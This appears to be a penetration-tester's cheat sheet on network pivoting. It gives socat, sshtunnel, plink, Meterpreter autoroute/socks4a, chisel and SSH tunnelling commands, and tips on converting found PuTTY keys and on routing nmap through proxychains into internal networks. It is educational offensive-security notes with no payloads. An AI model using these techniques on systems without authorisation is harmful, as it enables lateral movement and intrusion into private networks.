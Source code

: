 # Pivotting 101

Sometimes we just can't get access to the thing that we need to exploit.

When that happens we need to know the different ways in which we can get around this little hurdle, as there is always a way.

[The question on StackExchange that spawned this post](https://unix.stackexchange.com/questions/293304/using-netcat-for-port-forwarding)

## SOCAT

```bash
socat tcp-listen:8001,reuseaddr,fork tcp:localhost:8000
```

## Python

Not something you want to code yourself with any kind of time contraints, but it's totally possible.

Best choice is to use an existing library like [sshtunnel](https://pypi.org/project/sshtunnel/) which you can use to do things like the following (which forwards a Vagrant server to the local MySQL port):

```python
from sshtunnel import open_tunnel
from time import sleep

with open_tunnel(
    ('localhost', 2222),
    ssh_username="vagrant",
    ssh_password="vagrant",
    remote_bind_address=('127.0.0.1', 3306)
) as server:

    print(server.local_bind_port)
    while True:
        # press Ctrl-C for stopping
        sleep(1)

print('FINISH!')
```

## Putty

Basically SSH for Windows. Usually the most interaction we'll have with this is when we find one of it's keys (.ppk) laying around on a machine.

With that being said...

Convert Putty key to SSH key:

```bash
puttygen id_dsa.ppk -O private-openssh -o id_dsa

puttygen id_dsa.ppk -O public-openssh -o id_dsa.pub
```

Sometimes Putty also has passwords left in the registry:

## Plink

For this to work we need to make sure SSH is turned on. 

```bash
service ssh restart
```

The on the target machine we can do the following:

```bash
.\plink.exe root@kali_ip -R KALI_PORT:IP_OF_TARGET_MACHINE:TARGET_PORT
```

(Could come in handy if we have SMB creds for an admin but we can't access SMB remotely)

## Metasploit

In a `meterpreter` session:

```bash
portfwd add -l LOCAL_PORT -p DESTINATION_PORT -r TARGET_IP
```

```bash
run autoroute -s 10.1.1.0/24
run autoroute -s 10.2.2.0/24
```

```bash
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
exploit -j

```

Now on our host machine we can scan the IT network:

```bash
vim /etc/proxychains.conf 
...
socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

## Chisel

Chisel is an awesome tool that is more than capable of turning what feels like a lost cause into a system own.

[Github Link for Chisel](https://github.com/jpillora/chisel)

On the host:

```bash
chisel(.exe) client 10.10.14.3:1338 R:1234:127.0.0.1:1234
```

That will setup a connection to 1337, which will then forward port 1234 to localhost:

```bash
chisel(.exe) server -p 1337 -reverse -v
```

## SSH

Local Foward:

```bash
ssh -L 80:127.0.0.1:80 someserver@someip
```

### Remote Forward

```bash
ssh -R 8080:localhost:80 someserver@someip
```

### Dynamic tunneling

```bash
ssh -D 9000 sean@10.11.1.251
```

```bash
vim /etc/proxychains.conf 

socks4 127.0.0.1 1080
```

```bash
proxychains nmap -sT -v -Pn 10.2.2.224
```

This creates a dynamic tunnel over port 9000 using SOCKS(4a)

